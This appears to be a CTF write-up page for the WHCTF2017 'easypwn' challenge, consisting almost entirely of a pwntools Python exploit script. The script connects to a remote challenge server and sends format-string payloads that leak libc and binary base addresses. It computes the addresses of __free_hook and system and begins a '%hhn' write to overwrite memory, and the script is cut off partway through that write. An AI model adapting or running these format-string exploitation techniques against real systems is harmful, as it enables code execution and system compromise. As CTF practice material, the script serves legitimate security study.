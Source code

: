 ### easypwn

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level='debug'
context.terminal = ['terminator','-x','bash','-c']

DEBUG = 0

if DEBUG:
	cn = process('./pwn1', env={"LD_PRELOAD": "./libc.so.6"})
	gdb.attach(cn)
	
else:
	cn = remote("118.31.10.225", 20001)
e = ELF('./pwn1')
libc = ELF('./libc.so.6')

# init malloc got
cn.recvuntil('Code:')
cn.sendline('2')
cn.recvuntil('Name:\n')
cn.sendline('aaaaa')

cn.recvuntil('Code:')
cn.sendline('1')

cn.recvuntil('WHCTF2017:\n')
# raw_input()
pay = 'a'*1000+'bb%397$p\n%401$p'
pay.ljust(1080,'a')
cn.sendline(pay)
cn.recvuntil('0x')
data = int(cn.recvuntil('\n')[:-1],16)
cn.recvuntil('0x')
binbase = int(cn.recvuntil('\n')[:-1],16)

libc_base = data - libc.symbols['__libc_start_main']-240
success('libc_base: ' + hex(libc_base))
success("main: " + hex(binbase))
# onegadget = 0xf66c0
# onegadget_libc = libc_base + onegadget
free_book = libc_base + libc.symbols["__free_hook"]
system_libc = libc_base + libc.symbols["system"]
# malloc_got = binbase + e.got["free"] - 0xc3c

info("free_book: " + hex(free_book))
info("system_libc: " + hex(system_libc))


# set one bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = system_libc & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
```